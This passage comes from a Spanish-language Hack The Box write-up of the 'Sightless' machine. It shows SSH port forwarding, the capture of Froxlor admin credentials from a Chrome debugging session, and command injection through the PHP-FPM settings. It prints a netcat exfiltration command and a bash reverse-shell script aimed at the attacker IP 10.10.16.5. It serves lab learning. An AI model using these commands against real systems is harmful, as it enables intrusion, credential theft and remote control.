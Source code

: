 Luego de filtrar por todos aquellos puertos, sólo nos quedan 3 candidatos: `33569`, `33911` y `34001`.

nos los vamos a pasar todos por ssh:
```bash
ssh michael@sightless.htb -L 8080:admin.sightless.htb:8080 -L 33363:127.0.0.1:33363 -L 3000:127.0.0.1:3000 -L 41129:127.0.0.1:41129 -L 33060:127.0.0.1:33060 -L 35705:127.0.0.1:35705
```

ahora si habrimos chrome y ponemos chrome://inspect/#devices
veremoslo siguiente
![[Pasted image 20250118130807.png]]
si le damos a configure
![[Pasted image 20250118130903.png]]
vamos a poner ese puerto y le damos a done
Uno de los puertos que podría estar expuesto en la máquina víctima es el de la sesión de Google Chrome. En mi caso específico, el puerto y la IP que encontré fue 127.0.0.1:33911. Al añadirlo, aparece un mensaje de Froxlor. Si accedemos al primer enlace y seleccionamos la opción Inspect, podemos observar una animación en pantalla. Esta muestra cómo un usuario inicia sesión en el panel de Froxlor. Utilizando la pestaña de Desarrolladores, accedemos a la sección Network y, una vez el usuario haya iniciado sesión, podemos inspeccionar el recurso index.php y revisar la pestaña Payload. Allí encontramos:

![](https://fallenangel666-htb.github.io/zzero.github.io//assets/images/Sightless/Pasted-image-20250119113409.png)

Podemos ver que el parámetro loginname corresponde a un usuario llamado admin y la contraseña es ForlorfroxAdmin.

Luego, accedemos a http://127.0.0.1:8080 e ingresamos las credenciales admin:ForlorfroxAdmin, logrando acceder al panel como usuario admin:

![](https://fallenangel666-htb.github.io/zzero.github.io//assets/images/Sightless/Pasted-image-20250119113523.png)

En el panel, en la barra lateral izquierda, encontramos una pestaña llamada PHP. Al hacer clic en ella, vemos varias opciones. Entre ellas, se encuentra la pestaña PHP-FPM versions. Investigando un poco más, descubrimos que es una herramienta para gestionar procesos de PHP de manera eficiente.

Al hacer clic en PHP-FPM versions y luego en Create new PHP version, se muestra una nueva página. En esta, intentamos ejecutar el comando whoami y redirigir su salida a nuestra máquina atacante utilizando un pipe (|) junto con netcat. En el panel de Froxlor, ingresamos el comando whoami | nc 10.10.16.5 4444 y en nuestra máquina atacante iniciamos un listener en el puerto 4444 ejecutando nc -lvnp 4444. En la máquina víctima, añadimos el payload mencionado:

![](https://fallenangel666-htb.github.io/zzero.github.io//assets/images/Sightless/Pasted-image-20250119113715.png)

Sin embargo, encontramos un problema. Al hacer clic en Save, obtenemos un error. Anteriormente habíamos probado con comandos más sencillos como whoami e id, y funcionaron, por lo que sospechamos que el pipe (|) podría estar interfiriendo. Debido a que nuestra sesión con el usuario michael está siendo utilizada por Chisel para establecer el túnel, nos volvemos a conectar por SSH como michael (sin cerrar la sesión de Chisel) y creamos un script simple en Bash que enviará una reverse shell a nuestra máquina atacante:
```bash
michael@sightless:~$ echo -e '#!/bin/bash\nbash -c "bash -i >& /dev/tcp/10.10.16.5/443 0>&1"' > /dev/shm/rev.sh

michael@sightless:~$ cat /dev/shm/rev.sh

#!/bin/bash
bash -c "bash -i >& /dev/tcp/10.10.16.5/443 0>&1"

michael@sightless:~$ chmod +x /dev/shm/rev.sh
```
En nuestra máquina atacante, iniciamos un listener con netcat en el puerto 443:
```bash
nc -lvnp 443
```
